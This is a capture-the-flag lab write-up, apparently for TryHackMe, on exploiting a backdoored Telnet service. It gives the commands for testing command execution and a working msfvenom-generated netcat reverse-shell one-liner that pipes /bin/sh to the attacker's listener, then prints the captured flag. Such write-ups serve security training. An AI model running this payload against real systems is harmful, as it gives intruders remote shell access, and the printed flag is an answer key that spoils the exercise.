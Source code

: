 
**Types of Telnet Exploit**

Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)[](https://cve.mitre.org/)

A CVE, short for Common Vulnerabilities and Exposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.

**Method Breakdown**

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!

**Connecting to Telnet**

You can connect to a telnet server with the following syntax:

    **"telnet [ip] [port]"**

We're going to need to keep this in mind as we try and exploit this machine.  
  

**What is a Reverse Shell?**

**![](https://i.imgur.com/EUC7VS6.png)**

A **"shell"** can simply be described as a piece of code or program which can be used to gain code or command execution on a device.

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.


## Write-up

### 1) Enumeration

- We started by enumerating the target system and discovered the IP and port details. We connected to the system using Telnet:

```shell
telnet 10.10.73.26 8012`
```

### 2) Testing Command Execution

Since we can’t directly run commands interactively, we needed to perform a reverse shell. To confirm the system can execute commands, I used `tcpdump` to listen for network traffic from the target:
```shell
sudo tcpdump ip proto \\icmp -i tun0`
```

Next, I tested running a simple system command (`ping`) via Telnet to ensure we could execute commands:

```shell
.RUN ping [local machine IP] -c 1`
```

**Output**:

``` shell
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes 03:59:37.155224 IP 10.10.73.26 > wareville-gw: ICMP echo request, id 1269, seq 1, length 64 03:59:37.155242 IP wareville-gw > 10.10.73.26: ICMP echo reply, id 1269, seq 1, length 64 04:00:31.530478 IP 10.10.73.26 > wareville-gw: ICMP echo request, id 1270, seq 1, length 64 04:00:31.530506 IP wareville-gw > 10.10.73.26: ICMP echo reply, id 1270, seq 1, length 64
```
This confirms that we are able to run system commands and reach our local machine.

### 3) Reverse Shell Payload

I generated a reverse shell payload using `msfvenom`, which will execute a Netcat reverse shell on the target machine, connecting back to our local machine:

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=10.21.77.154 lport=4444 R
```
**Generated Payload**:


```shell
mkfifo /tmp/iczgnc; nc 10.21.77.154 4444 0</tmp/iczgnc | /bin/sh >/tmp/iczgnc 2>&1; rm /tmp/iczgnc`

```
### 4) Setting Up a Netcat Listener

Next, I started a listener on port 4444 to catch the reverse shell:

```shell
nc -lvnp 4444

```
### 5) Executing the Payload

I pasted the generated reverse shell command into my Telnet session:

```shell
Trying 10.10.73.26... 
Connected to 10.10.73.26. Escape character is '^]'. 
SKIDY'S BACKDOOR. Type .HELP to view commands 
.RUN mkfifo /tmp/iczgnc; nc 10.21.77.154 4444 0</tmp/iczgnc | /bin/sh >/tmp/iczgnc 2>&1; rm /tmp/iczgnc
```

### 6) Capturing the Flag

Once the reverse shell connected, I had access to the target machine:

```shell
listening on [any] 4444 ... 
connect to [10.21.77.154] from (UNKNOWN) 
[10.10.73.26] 49132
```

I navigated to the flag location and read the flag:

```shell
ls flag.txt
pwd /root 
cat flag.txt 
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
### Conclusion:

By exploiting the Telnet service and using a reverse shell, I successfully gained a shell on the target machine, navigated to `/root`, and captured the flag.


